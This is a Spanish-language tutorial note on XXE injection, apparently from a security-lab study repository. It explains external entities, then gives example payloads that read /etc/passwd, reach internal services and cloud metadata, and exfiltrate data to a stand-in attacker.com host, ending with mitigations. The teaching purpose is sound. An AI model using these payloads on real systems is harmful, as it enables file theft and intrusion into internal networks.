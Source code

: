 # XML External Entity Injection

## 🔧 Qué es una vulnerabilidad XXE

Una **XXE injection** es una vulnerabilidad de seguridad web que ocurre cuando una aplicación procesa datos XML de forma insegura. Esto permite a un atacante:

* Leer archivos arbitrarios del servidor (como `/etc/passwd`).
* Realizar ataques SSRF.
* Exfiltrar datos de forma encubierta (blind XXE).

La causa principal es que muchos parsers XML soportan por defecto funcionalidades peligrosas como las **entidades externas**, sin requerir que la aplicación las use intencionalmente.

---

## 🤖 Qué son las entidades externas en XML

XML permite definir **entidades externas** en la sección `DOCTYPE`, que pueden cargar contenido desde archivos locales o URLs externas. Ejemplo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Esta entidad `xxe` representará el contenido del archivo `/etc/passwd`, si el parser lo permite. Luego, podrá utilizarse en cualquier parte del XML como `&xxe;`.

---

## 🤷‍♂️ Por qué surgen las vulnerabilidades XXE

* Muchas aplicaciones utilizan XML para transmitir datos entre cliente y servidor (por ejemplo, en APIs SOAP o sistemas legados).
* Usan bibliotecas como `libxml`, `XMLParser`, etc. que admiten entidades externas por defecto.
* Si la configuración no desactiva esas funcionalidades, un atacante podrá aprovecharlas para manipular la forma en que se procesan los datos.

---

## 📊 Tipos de ataques XXE

### 1. ✅ **Lectura de archivos locales**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Esto causará que el contenido de `/etc/passwd` se inserte en el lugar de `&xxe;` y sea devuelto en la respuesta si se incluye.

### 2. 📡 **SSRF)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service.local/admin"> ]>
```

Esto puede ser usado para escanear servicios internos o atacar metadata APIs (ej. `http://169.254.169.254` en AWS).

### 3. 🔒 **Blind XXE con exfiltración OOB (Out-of-band)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=file:///etc/passwd"> ]>
```

El servidor hace la solicitud, filtrando información al dominio del atacante.

### 4. 💡 **Blind XXE por error**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;&invalid;</productId>
</stockCheck>
```

Puede generar errores que revelen partes del contenido si el parser no puede manejar el resultado.

---

## 🔢 Detección sistemática de XXE

En escenarios reales, el XML puede tener varios nodos. El atacante debe probar su entidad `&xxe;` en cada nodo individual y observar en cuál se refleja su valor. Por ejemplo:

```xml
<order>
  <client>&xxe;</client>
  <productId>42</productId>
  <comments>Urgente</comments>
</order>
```

---

[Lab: Exploiting XXE using external entities to retrieve files](1_Exploiting_XXE_using_external_entities_to_retrieve_files.mdd)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---


---

[Lab: Exploiting XXE using external entities to retrieve files](1_Exploiting_XXE_using_external_entities_to_retrieve_files.mdd)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 🚫 Mitigación y mejores prácticas

* ❌ No uses parsers XML inseguros o con configuraciones por defecto.
* ✅ Deshabilitá resolución de entidades externas (ej. `disableEntityExpansion=true`).
* ✉️ Usá formatos más seguros como JSON.
* ⛨️ Aplicá control de salida: nunca reflejes ciegamente contenido XML procesado.

---


